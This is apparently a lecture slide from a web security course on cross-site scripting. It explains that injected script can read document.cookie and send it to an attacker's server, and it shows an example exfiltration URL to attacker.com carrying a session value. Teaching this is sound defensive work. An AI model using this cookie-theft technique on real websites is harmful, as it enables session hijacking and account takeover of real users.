

# Now You Can Have Cookie How Can You Send that to the Attacker?
After injecting the code, attacker may access the cookie via
document.cookie

To use that, attacker may want to have the cookie
Then, how can we transfer that cookie to the attacker?
Attacker has a server to receive the cookie
https://attacker.com/?cookie=session=8e5f8693-9983-d3fd-939849239482

Using XMLHttpRequest in Web 2.0?
No way; the Same-Origin policy will block that
attacker.com != facebook.com
43